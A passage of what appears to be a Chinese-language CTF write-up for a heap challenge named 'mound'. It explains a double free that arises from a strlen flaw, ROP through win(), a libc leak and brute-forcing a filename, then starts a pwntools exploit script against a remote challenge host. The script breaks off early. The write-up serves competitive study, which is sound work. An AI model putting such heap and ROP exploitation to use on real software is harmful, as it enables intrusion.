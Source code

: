 一樣是未知檔名 + seccomp 限制。



他自己實作了一個 heap 的機制，並且透過 chunk 內的 data 是否在類似 db 的資料結構中出現來判斷有沒有 double free，但是因為 `strlen` 那邊沒有設定好，導致可以透過前一個 chunk 修改到 freed chunk，因而有 double free 的可能。過程中有一些檢查機制，不過只需要觀察一下就能繞掉，最後可以跳到 `win()` function 做基本上任意長度的 ROP，而因為 code section 中沒有 `syscall` 還有一些有用的 `pop ; ret` instruction，因此首先要 leak libc，而後在透過 `open()` directory + `getdent` 得到檔案名稱，但是不知道為什麼 `getdent` 讀到的檔案第一個檔名會被吃掉，因此需要透過 wordlist 來 brute force 第一個檔案名稱，不過由於範圍在 0 ~ f，大概兩分鐘就猜到了，exploit:

```python
#!/usr/bin/python3

from pwn import *
import string

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

wl = "0123456789abcdef"

# r = remote('localhost', 8888)
# r = process('./mound')
# gdb.attach(r, """
# # b *top_chunk_alloc
# # b *0x401351
# # b *mcache_alloc
# """)

"""
1. Add sand
2. Add dirt
3. Replace dirt
4. Remove dirt
5. Go home
"""
exit_got = 0x404080
perror_got = 0x404070
setvbuf_got = 0x404068
exit_plt = 0x401106

def add_sand(idx, cnt):
    r.sendlineafter('> ', '1')
    r.sendafter('Pile: ', cnt)
    r.sendlineafter('Pile index: ', str(idx))

def add_dirt(sz, idx, cnt):
    r.sendlineafter('> ', '2')
    r.sendlineafter('Size of pile: ', str(sz))
    r.sendlineafter('Pile index: ', str(idx))
    r.sendafter('Pile: ', cnt)

def replace(idx, cnt):
    r.sendlineafter('> ', '3')
    r.sendlineafter('Pile index: ', str(idx))
    r.sendafter('New pile: ', cnt)

def delete(idx):
    r.sendlineafter('> ', '4')
    r.sendlineafter('Pile index: ', str(idx))


for w in wl:
    r = remote('193.57.159.27', 65382)
    add_sand(0, b'\xaa' * 0x100)
    add_sand(1, b'\xbb' * 0x100)
```